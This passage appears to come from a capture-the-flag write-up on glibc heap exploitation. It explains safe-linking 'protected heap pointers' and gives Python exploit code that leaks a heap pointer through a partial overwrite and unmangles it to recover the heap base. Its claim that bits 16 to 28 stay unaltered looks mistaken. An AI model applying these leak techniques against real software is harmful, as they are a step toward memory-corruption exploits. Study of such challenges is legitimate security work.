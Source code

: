<img src="./assets/bins.png" align="center" />

The first two freed chunks in `tcache-0x30` are `Bounty_t structs`. The second one will be returned to us as the bounty description if we request to register a bounty that has a 26-byte description. On that chunk lies a `protected heap pointer`, which we will be leaking.

A `protected heap pointer` is basically a heap pointer, XORed with the base address of the heap shifted right by 12 bits.

```
PROTECTED_HEAP_PTR = HEAP_PTR ^ (HEAP_BASE >> 12)
```

Due to the right shifting, bits 16 to 28 (most significant bits) are not altered since they are XORed with 0, and we can reverse this process and recover everything but the 12 least significant bits of the pointer, which we do not need anyways.

```python
def unprotect(ptr):
  mask = 0xfff << 52
  while mask:
    v = ptr & mask
    ptr ^= (v >> 12)
    mask >>= 12
  return ptr

# only overwrite a single byte of the pointer
alloc(26, data=b'')

ptr = u64(view(2, len=6).ljust(8, b'\x00'))
print(f'leak = {hex(ptr)}')
ptr = unprotect(ptr)
print(f'unprotected ptr = {hex(ptr)}')
heap_base = (ptr >> 12) << 12
print(f'heap base @ {hex(heap_base)}')
```
